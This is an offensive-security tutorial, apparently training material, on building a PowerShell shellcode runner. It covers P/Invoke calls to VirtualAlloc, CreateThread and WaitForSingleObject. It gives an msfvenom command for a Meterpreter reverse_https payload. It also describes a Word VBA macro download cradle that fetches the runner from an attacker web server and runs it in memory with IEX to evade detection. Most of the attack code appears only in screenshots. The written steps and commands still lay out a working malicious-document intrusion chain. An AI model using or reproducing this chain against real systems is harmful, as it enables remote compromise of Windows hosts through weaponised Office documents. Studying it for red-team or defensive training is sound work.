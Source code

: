 :orphan:
(powershell-shellcode-part-1)=

# Powershell Shellcoding: Part 1

### Calling Win32 APIs from Powershell

PowerShell cannot interface natively with the Win32 APIs, but the `.NET framework` allows us to use C# in our PowerShell session.
Using the `DllImportAttribute` class, we can import and declare Win32 APIs in C#.
This permits the invocation of functions within unmanaged dynamic link libraries.

We must convert C data types to C# data types. Using *Microsoft's Platform Invocation Services*, sometimes known as *P/Invoke*, we can simply accomplish this. The PInvoke APIs are located within the `System` and `System.Runtime` assemblies. `InteropServices` namespaces must be imported using the term utilizing. The easiest method to get started with `P/Invoke` is via the website [www.pinvoke.net](https://www.pinvoke.net), which details translations of the most prevalent Win32 APIs. Consider the syntax of `MessageBox` from `User32.dll`, as seen below:     


```cpp
int MessageBox(
    HWND hWnd, 
    LPCTSTR lpText, 
    LPCTSTR lpCaption, 
    UINT uType
);
```

Let's create a C# method signature from this. A method signature is a method's unique identifier for the C# compiler. The signature comprises the method's name, the type and kind (value, reference, or output) of each formal argument, and the return type.

To "translate" this, we can either search the [www.pinvoke.net](https://pinvoke.net) website or simply Google for pinvoke User32 messagebox. The first hit leads us to the C# signature for the call:    

![1](powershell-shellcode-part-1/2022-10-24_05-20_1.png)     

In order to use this, we will need to add some code to import the `System` and `System.Runtime.InteropServices` namespaces that include P/Invoke APIs.    

Then, we'll create a C# class (`User32`) that uses `DllImport` to import the `MessageBox` signature. This class permits interaction with the Windows API.      

![1](powershell-shellcode-part-1/2022-10-24_05-20.png)      

Now that we have a C# import and a P/Invoke translation, we must invoke it using the `Add-Type` keyword in PowerShell. By specifying `Add-Type` in PowerShell, the `.NET framework` will be compelled to compile and build an object containing the structures, values, functions, or code included within the `Add-Type` line.     

Put simply, `Add-Type` uses the `.NET framework` to compile the C# code containing Win32 API declarations.    

The complete `Add-Type` statement is:    

![1](powershell-shellcode-part-1/2022-10-24_05-17_1.png)

First, keep in mind that PowerShell employs either a newline or a semicolon to indicate the end of a sentence. The `@` keyword declares *Here-Strings*, which are a straightforward method to declare text blocks.    

In summary, the code first creates a `$User32` variable and sets it to a block of text. Inside that block of text, we set the program to use `System` and `System.Runtime.InteropServices`. Then we import the `MessageBox` API from the `user32` dll, and finally we use `Add-Type` to compile the C# code contained in the `$User32` variable.    

Our code is almost finished. We must now just run the API itself. This is possible through the `User32` .NET object created as shown below. Here, we instruct the application to invoke `MessageBox` and display a dialog box with the text *"This is an alert"*:      

```csharp
[User32]::MessageBox(0, "This is an alert", "MyBox", 0)
```

At this point, our code looks like this:     

![1](powershell-shellcode-part-1/2022-10-24_05-17.png)     

This code should invoke `MessageBox` from PowerShell. To simulate and test this scenario accurately, we must utilize the `32-bit` version of PowerShell ISE accessible at:     

```powershell
C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell_ise.exe
```

When the code is executed, a message box is displayed:    

![1](powershell-shellcode-part-1/2022-10-24_02-35.png)    

This illustrates that while PowerShell cannot utilize Win32 APIs natively, `Add-Type` can invoke them via *P/Invoke*. 

### Shellcode runner in Powershell

The concept of running shellcode on PowerShell is not that complicated. As classical shellcode running technique, we already know the three steps to perform. First, we allocate memory space for executable using `VirtualAlloc`. Next, our shellcode is copied to the newly created memory space. Finally, create a thread using `CreateThread`.    

In the C-language or in the VBA code, we can use `RtlMoveMemory` to copy the shellcode, however, we may use the `.NET Copy` function from the `System.Runtime.InteropServices.Marshal` namespace within PowerShell.
This enables the copying of data from a managed array to a non-managed memory reference.    

We will use *P/Invoke* ( from a search on [www.pinvoke.net](https://www.pinvoke.net) ) to translate the `VirtualAlloc` and `CreateThread` parameters, resulting in the following `Add-Type` statement:     

![3](powershell-shellcode-part-1/2022-10-24_05-19.png)      

Note that we assigned a text block to the `$Kernel32` variable using *Here-Strings*. We also added import statements to the `public Kernel32` class so we may compile and refer to it in the future.    

Next we must supply the required shellcode, which we'll again generate with `msfvenom`. This time, we'll use the `ps1` output format:    

```bash
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 EXITFUNC=thread -f ps1
```

![1](powershell-shellcode-part-1/2022-10-24_02-54.png)    

Now that the shellcode has been constructed, the `$buf` variable may be copied and added to our code. In addition, we will begin configuring the API parameters as seen below.     

![1](powershell-shellcode-part-1/2022-10-24_05-13.png)     

We invoked the imported `VirtualAlloc` call with the same arguments as before. These include a `0` to let the API choose the allocation address, the detected size of the shellcode, and the hexadecimal numbers `0x3000` and `0x40` to set up memory allocation and protections correctly. We used the `.NET Copy` method to copy the shellcode, supplying the managed shellcode array, an offset of `0` indicating the start of the buffer, the unmanaged buffer address, and the shellcode
size. Finally, we called `CreateThread`, supplying the starting address. If we run this code from PowerShell ISE, we get a reverse shell. Nice.   

![123](powershell-shellcode-part-1/2022-10-24_02-59.png)   

Now let's say we need to initiate this from a Word macro. However, we will not embed the PowerShell code directly in VBA. Instead, we will develop a cradle that will run and download our code into memory. Below is the code for the download cradle:     

![1](powershell-shellcode-part-1/2022-10-24_03-40.png)

First, we declared a string variable holding the PowerShell invocation of the `Net.WebClient` class's download cradle. Once the PowerShell script has been downloaded into memory as a string, Invoke-Expression is used to run it (IEX). This complete execution of code is initiated by the `Shell` command.    

Notice that the download cradle references the `run.ps1` in the web root of our Kali machine. To execute our code, we first copy our PowerShell shellcode runner into the run.ps1 file on our Kali Apache or Simple Python web server.    

Next we open Microsoft Word and insert the VBA code into our macro and execute it.    

There is a caveat. However, we don't catch a shell in our `multi/handler`. Let's try to troubleshoot.    

On the Windows side, if we are quick and utilize *Process Explorer*, we may detect that a PowerShell process is being launched and subsequently terminated.    

The explanation behind this is clear. Our shell finishes when the parent `PowerShell` process ends. Our shell is effectively ended before to its initiation.    

To solve this, we must instruct PowerShell to delay termination until our shell fully executes. We'll
use the Win32 `WaitForSingleObject` API to pause the script and allow Meterpreter to finish.   

We'll update our shellcode runner PowerShell script to import `WaitForSingleObject` using *P/Invoke* and `Add-Type` and invoke it as shown:     

![1](powershell-shellcode-part-1/2022-10-24_05-14.png)    

Let's talk about this addition. `CreateThread` provides a handle to the newly formed thread when invoked. We passed this handle along with the time to wait for the thread to complete to `WaitForSingleObject`. In this instance, we've supplied `0xFFFFFFFF`, which instructs the application to wait indefinitely or until we quit the shell. Because PowerShell only supports signed numbers, we have specifically executed a type cast on this value using the `[unit32] static .NET` type to convert it to an unsigned integer.     

Again, we used *Here-Strings* to assign a text block to the `$Kernel32` variable. In our class, three Windows APIs were imported. Then, using `Add-Type`, we compiled the `public Kernel32 class` that was invoked by the APIs. This modification should prevent PowerShell from terminating prematurely. The VBA code may now be re-executed after updating the PowerShell shellcode runner located on our Kali Linux web server. This should result in a Meterpreter shell in reverse.
Quite nice.     

![321](powershell-shellcode-part-1/2022-10-24_03-18.png)    

We can also observe the PowerShell process running as a child process of Word:    

![123](powershell-shellcode-part-1/2022-10-24_03-19.png)    

In this step, we constructed a PowerShell shellcode runner. We downloaded and executed the script from our Kali web server using the VBA code in our Word macro.
This essentially removed our payload from the Word document, making it look as though the code is running entirely in memory, which should help with evasion. 

### References

[VirtualAlloc](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc)     
[CreateThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread)    
[WaitForSIngleObject](https://docs.microsoft.com/en-us/windows/win32/api/synchapi/nf-synchapi-waitforsingleobject)     

:::{seealso}
Looking to expand your knowledge of vulnerability research and exploitation? Check out our online course, [MVRE - Certified Vulnerability Researcher and Exploitation Specialist](https://www.mosse-institute.com/certifications/mvre-vulnerability-researcher-and-exploitation-specialist.html) In this course, you'll learn about the different aspects of software exploitation and how to put them into practice.
:::